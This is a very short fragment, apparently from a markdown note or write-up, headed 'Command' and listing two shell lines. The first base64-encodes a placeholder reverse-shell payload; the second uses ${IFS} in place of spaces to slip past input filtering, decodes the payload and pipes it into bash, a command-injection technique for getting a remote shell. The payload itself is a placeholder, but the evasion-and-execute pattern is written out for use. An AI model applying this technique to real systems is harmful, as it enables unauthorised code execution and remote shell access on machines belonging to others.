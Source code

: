 ### Command

#### 1) echo 'REVERSE_SHELL_PAYLOAD' | base64

#### 2) echo${IFS}BASE64_SHELL|base64${IFS}-d|bash

